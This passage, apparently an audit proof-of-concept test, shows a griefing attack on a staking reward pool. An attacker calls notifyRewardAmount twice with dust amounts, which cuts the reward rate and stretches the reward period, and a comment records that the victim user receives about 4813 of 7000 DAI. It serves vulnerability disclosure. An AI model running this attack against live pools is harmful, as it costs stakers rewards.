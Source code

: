 ```solidity 
		await stakingToken.connect(controlUser).approve(await controlPool.getAddress(), STAKE_AMOUNT)
		await victimPool.connect(normalUser).deposit(STAKE_AMOUNT, normalUser.address)
		await controlPool.connect(controlUser).deposit(STAKE_AMOUNT, controlUser.address)

		// Admin adds initial rewards to both pools
		const tokenAddress = await rewardToken.getAddress()
		await victimPool.connect(admin).notifyRewardAmount([tokenAddress], [INITIAL_REWARD])
		await controlPool.connect(admin).notifyRewardAmount([tokenAddress], [INITIAL_REWARD])

		// Get initial settings for comparison later
		const initialRateInfo = await victimPool.rewardState(tokenAddress)
		const initialRate = initialRateInfo.rate
		const initialPeriodFinish = initialRateInfo.periodFinish

		// ------- ATTACK EXECUTION -------

		// Fast forward 2 days and perform first attack
		await time.increase(2 * 24 * 60 * 60)

		// FIRST ATTACK - Add just one billionth of a DAI
		await victimPool.connect(griefer).notifyRewardAmount([tokenAddress], [DUST_AMOUNT])

		// Measure impact of first attack
		const attack1Info = await victimPool.rewardState(tokenAddress)
		const rateReduction1 = 100 - Number((attack1Info.rate * BigInt(100)) / initialRate)
		const extension1 = Number(attack1Info.periodFinish - initialPeriodFinish) / (24 * 60 * 60)

		// Fast forward 2 more days
		await time.increase(2 * 24 * 60 * 60)

		// SECOND ATTACK - Add another dust amount
		await victimPool.connect(griefer).notifyRewardAmount([tokenAddress], [DUST_AMOUNT])

		// Measure impact of second attack
		const attack2Info = await victimPool.rewardState(tokenAddress)
		const rateReduction2 = 100 - Number((attack2Info.rate * BigInt(100)) / initialRate)
		const extension2 = Number(attack2Info.periodFinish - initialPeriodFinish) / (24 * 60 * 60)

		// Fast forward to original end date (day 7)
		await time.increase(3 * 24 * 60 * 60)

		// At original end date (day 7), compare rewards
		const normalUserEarned = await victimPool.earned(normalUser.address, tokenAddress)
		const controlUserEarned = await controlPool.earned(controlUser.address, tokenAddress)
		const shortfall = controlUserEarned - normalUserEarned
		const shortfallPct = Number((shortfall * BigInt(100)) / controlUserEarned)

		// ------- ASSERTIONS & RESULTS -------

		/* First attack results:
		 * - Rate reduced by ~29%
		 * - Period extended by 2 days
		 * - Added only 0.000000001 DAI (one billionth)
		 *
		 * Second attack results:
		 * - Rate further reduced to ~49% below original
		 * - Period extended to 4 days beyond original
		 * - Total added only 0.000000002 DAI
		 *
		 * Impact at original end date (day 7):
		 * - Control pool: User received full 7000 DAI
		 * - Manipulated pool: User received only ~4813 DAI
```